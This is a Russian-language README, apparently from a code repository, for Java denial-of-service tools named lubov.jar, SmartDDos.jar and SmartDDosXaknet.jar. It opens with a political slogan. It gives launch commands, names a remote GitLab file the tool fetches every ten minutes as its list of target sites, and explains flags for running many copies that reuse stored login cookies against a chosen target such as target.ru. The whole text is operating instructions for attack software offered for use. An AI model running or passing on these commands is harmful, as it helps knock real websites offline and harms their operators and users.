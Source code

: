 # Путин Хуйло!

Для работы утилиты нужно установить джаву!

Команда запуска в консоле

```
windows cmd -> java -jar bin/lubov.jar
mac os/linux terminal  -> java -jar bin/lubov.jar
```

`https://gitlab.com/cto.endel/atack_api/-/raw/master/sites.json` - источник урлов

Приложение перечитывает URLs каждые 10 мин

### SmartDDosXaknet.jar
Используйте -Dmaster=true для запуска первой копии и ручной авторизации
Используйте -Dmaster=false для запуска следующих копий, которые будут считывать куки из файла
Используйте -Dfile=/cookie.csv путь к файлу с куками
java -Dmaster=false -Dfile=/cookie.csv -jar SmartDDosXaknet.jar

### SmartDDos.jar
Используйте -Dmaster=true для запуска первой копии и ручной авторизации
Используйте -Dmaster=false для запуска следующих копий, которые будут считывать куки из файла
Используйте -Dfile=cookie.csv путь к файлу с куками
Используйте -Dtarget=http://target.ru цель для аттаки
java -Dmaster=false -Dtarget=http://target.ru -Dfile=/cookie.csv -jar SmartDDos.jar